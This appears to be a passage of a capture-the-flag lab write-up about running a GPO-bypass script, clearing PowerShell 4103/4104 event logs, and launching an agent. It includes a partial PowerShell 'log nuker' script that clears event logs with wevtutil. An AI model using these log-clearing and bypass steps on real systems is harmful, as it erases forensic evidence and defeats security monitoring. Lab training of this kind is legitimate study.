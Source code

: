 

## Practice

---

Let's do the following, first, we need to run the `gpo-bypass.ps1` script on our desktop:

![[Pasted image 20250522131618.png]]

Once we run it, we need to go to `event viewer` to delete `4103` and `4104` logs, we need to go to:

```
Application and Service Logs/Microsoft/Windows/Powershell/Operational
```

![[Pasted image 20250522131734.png]]

Hit on `Filter Current Log` and enter `4103, 4104` on the ID field:

![[Pasted image 20250522132228.png]]

Now, let's click on `Clear Log`

![[Pasted image 20250522132258.png]]

![[Pasted image 20250522132307.png]]

After doing this, we can now run `agent.exe`.

Or at least, this is the walkthrough we are supposed to take in order to solve the room, the issue with it is that, it seems to be bugged and does not output us a flag, I created this script to automate the process and output us the flag as the normal process would do:

```powershell
<#
.SYNOPSIS
  One-click evasive runner: GPO bypass, log nuker, payload launcher, stop agent, and flag extractor.

.DESCRIPTION
  Assumes this script, gpo-bypass.ps1, and agent.exe are all in the current folder.
  Run simply:  .\script.ps1
#>

# Hard-coded file names in the same directory
$BypassScript = ".\gpo-bypass.ps1"
$AgentPath    = ".\agent.exe"
$AgentName    = "agent"  # process name without .exe

# 1) Run the GPO bypass script
if (Test-Path $BypassScript) {
    Write-Host "[*] Running GPO bypass: $BypassScript" -ForegroundColor Cyan
    . $BypassScript
} else {
    Write-Warning "Bypass script not found (expected in same folder). Skipping."
}

# 2) Clear the PowerShell Operational log (4103/4104)
$operationalChannel = "Microsoft-Windows-PowerShell/Operational"
Write-Host "[*] Clearing Operational log: $operationalChannel" -ForegroundColor Cyan
wevtutil.exe clear-log $operationalChannel 2>$null

# 3) Clear the classic Windows PowerShell log (if it exists)
$classicChannel = "Windows PowerShell"
if (Get-WinEvent -ListLog $classicChannel -ErrorAction SilentlyContinue) {
    Write-Host "[*] Clearing classic log: $classicChannel" -ForegroundColor Cyan
```